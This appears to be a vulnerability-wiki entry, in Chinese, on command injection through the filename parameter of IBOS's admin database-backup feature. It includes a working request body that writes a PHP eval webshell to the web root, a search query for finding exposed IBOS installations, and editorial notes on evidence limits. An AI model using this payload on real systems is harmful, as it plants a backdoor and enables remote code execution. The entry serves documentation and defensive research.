



# IBOS 后台数据库备份参数命令注入/文件写入

## 条目说明

- 对象与具体问题：IBOS；后台数据库备份参数命令注入/文件写入
- 版本、配置及部署条件：正文声称<4.5.5；示例依赖Windows cmd/PATHEXT和shell备份方式
- 认证与权限前提：后台管理权限
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 已按原文中的具体接口、源码或上下文直接更正产品、根因或修复说明；未知版本和未经证明的影响仍明确保留为待核实。
- 标题称上传，实际filename参数拼接命令写文件，应以命令注入为根因并标明文件写入后果
- 缺请求路由/方法及响应文本，关键UI和结果在未查看截图

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

IBOS 后台数据库备份模块的 filename 参数被拼入系统命令，构成命令注入；示例在 Windows cmd、PATHEXT 和 shell 备份方式下写入 PHP 文件。需要后台管理权限，是否能够执行所写文件还取决于目录及服务配置。

### 漏洞影响

```
IBOS < 4.5.5
```

### 网络测绘

```
body="IBOS" && body="login-panel"
```

### 漏洞复现

登录页面

```plain
http://xxx.xxx.xxx.xxx/?r=dashboard/default/login
```


找到数据库备份模块





提交并抓包





示例通过 filename 参数注入命令，向根目录写入 test.php；这是命令执行后的文件写入，并非直接上传接口。


```plain
backuptype=all&custom_enabled=1&method=shell&sizelimit=2048&extendins=0&sqlcompat=MYSQL41&sqlcharset=utf8&usehex=0&usezip=0&filename=peiqi%26echo "<?php eval($_REQUEST[test]);?>">test%PATHEXT:~0,1%php%26test&dbSubmit=1
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
